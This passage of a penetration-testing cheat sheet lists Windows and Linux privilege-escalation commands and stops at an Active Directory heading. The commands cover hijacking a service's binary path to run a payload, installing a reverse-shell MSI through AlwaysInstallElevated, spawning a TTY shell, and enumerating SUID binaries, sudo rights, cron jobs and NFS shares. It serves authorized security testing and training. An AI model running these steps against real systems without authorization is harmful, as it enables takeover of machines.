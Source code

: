 #### **Exploiting Weak Services**

```powershell
sc qc <service>  # Find binary path  
sc config <service> binpath="C:\payload.exe"  
sc start <service>  
```

#### **AlwaysInstallElevated Exploit**

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated  
msiexec /quiet /qn /i reverse.msi  
```

* * *

### Linux Privilege Escalation

#### **Getting a TTY Shell**

```bash
python -c 'import pty; pty.spawn("/bin/bash")'  
/bin/bash -i  
```

#### **Checking SUID Binaries**

```bash
find / -perm -u=s -type f 2>/dev/null  
```

#### **Checking Sudo Permissions**

```bash
sudo -l  
```

#### **Exploiting Cron Jobs**

```bash
cat /etc/crontab  
```

#### **Mounting NFS Shares**

```bash
showmount -e <target IP>  
mount -o rw <targetIP>:<share> <mount_dir>  
```

  

## 5\. Active Directory Pentesting

### Enumeration

#### **Checking Local Administrators on a Domain-Joined Machine**
